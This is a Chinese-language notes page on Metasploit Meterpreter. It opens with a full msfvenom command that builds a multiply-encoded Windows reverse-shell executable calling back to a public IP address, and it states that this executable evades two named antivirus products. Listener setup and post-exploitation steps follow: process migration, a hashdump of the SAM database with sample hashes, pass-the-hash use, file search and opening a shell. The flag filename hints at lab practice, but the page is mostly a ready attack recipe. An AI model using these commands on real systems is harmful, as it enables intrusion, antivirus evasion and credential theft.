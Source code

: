 ```yaml
---
icon: pen-to-square
date: 2025-04-03
tags: 
title: "Metasploit: Meterpreter"
category:
  - 项目
---
```

## 免杀马生成
生成免杀马，可绕过火绒和腾讯电脑管家
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=120.46.10.222 LPORT=9831 -b "\x00" -e x86/shikata_ga_nai -i 20 -f raw | msfvenom -a x86 --platform windows -e x86/alpha_upper -i 10 -f exe -o ./shell4.exe
```

msf监听
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 120.46.10.222
msf6 exploit(multi/handler) > set LPORT 9831
msf6 exploit(multi/handler) > run
```

## 其他命令
```
```

---



```shell-session
msfvenom --list payloads | grep meterpreter
```
该列表将显示适用于以下平台的 Meterpreter 版本;

- Android
- Apple iOS
- Java
- Linux
- OSX
- PHP
- Python
- Windows

您决定使用哪个版本的 Meterpreter 主要基于三个因素;

- 目标作系统（目标作系统是 Linux 还是 Windows？它是 Mac 设备吗？是安卓手机吗？等）
- 目标系统上可用的组件（是否安装了 Python？这是 PHP 网站吗？等）
- 您可以与目标系统建立的网络连接类型（它们是否允许原始 TCP 连接？可以只进行 HTTPS 反向连接吗？IPv6 地址的监控不如 IPv4 地址严密吗？等）


## Meterpreter后渗透
`getuid`显示Meterpreter当前用户
```shell-session
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
ps会列出正在运行的进程。PID会提供将METERPRETER迁移到另一个进程所需的PID信息

### 进程迁移
meterpreter存在于内存中，依附于其他进程，因此可以将此进程迁移到其他进程
输入迁移命令后接目标进程的PID可以迁移进程
```shell-session
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully.
```

**哈希 Dump**

`hashdump`命令将列出SAM数据库的内容。SAM(安全帐户管理器)数据库在Windows系统上存储用户密码。这些密码以 NTLM(新技术 LAN Manager) 格式存储。

```shell-session
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
虽然在数学上无法“破解”这些哈希,NTLM但您仍然可以使用在线NTLM数据库或彩虹表攻击发现清晰文本密码。这些哈希也可以用于Pass-the-Hash攻击,以验证这些用户可以访问同一网络的其他系统。

**搜索**
search命令用于搜索目标用户中的文件如下
```shell-session
meterpreter > search -f flag2.txt
Found 1 result...
    c:\Windows\System32\config\flag2.txt (34 bytes)
```

**shell**
shell命令可以启动shell，按下 CTRL+Z 将帮助您返回到 Meterpreter shell。
```shell-session
meterpreter > shell
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```

